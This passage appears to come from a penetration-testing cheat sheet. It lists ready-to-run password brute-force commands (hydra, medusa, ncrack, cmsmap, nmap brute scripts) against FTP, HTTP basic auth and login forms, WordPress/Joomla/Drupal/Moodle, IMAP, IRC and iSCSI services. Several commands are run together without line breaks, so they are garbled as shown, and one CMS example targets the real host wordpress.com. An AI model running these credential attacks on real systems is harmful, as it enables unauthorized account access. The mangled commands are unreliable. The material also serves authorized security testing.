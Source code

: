 ```
hydra -l root -P passwords.txt [-t 32] <IP> ftpncrack -p 21 --user root -P passwords.txt <IP> [-T 5]medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
```

### HTTP Generic Brute <a href="#http-generic-brute" id="http-generic-brute"></a>

### HTTP Basic Auth <a href="#http-basic-auth" id="http-basic-auth"></a>

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
```

### HTTP - Post Form <a href="#http-post-form" id="http-post-form"></a>

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

For http**s** you have to change from "http-post-form" to "**https-post-form"**

### **HTTP - CMS --** (W)ordpress, (J)oomla or (D)rupal or (M)oodle <a href="#http-cms-w-ordpress-j-oomla-or-d-rupal-or-m-oodle" id="http-cms-w-ordpress-j-oomla-or-d-rupal-or-m-oodle"></a>

```
cmsmap -f W/J/D/M -u a -p a https://wordpress.com
```

### IMAP <a href="#imap" id="imap"></a>

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -Vhydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -Vnmap -sV --script imap-brute -p <PORT> <IP>
```

### IRC <a href="#irc" id="irc"></a>

```
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```

### ISCSI <a href="#iscsi" id="iscsi"></a>

```
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```
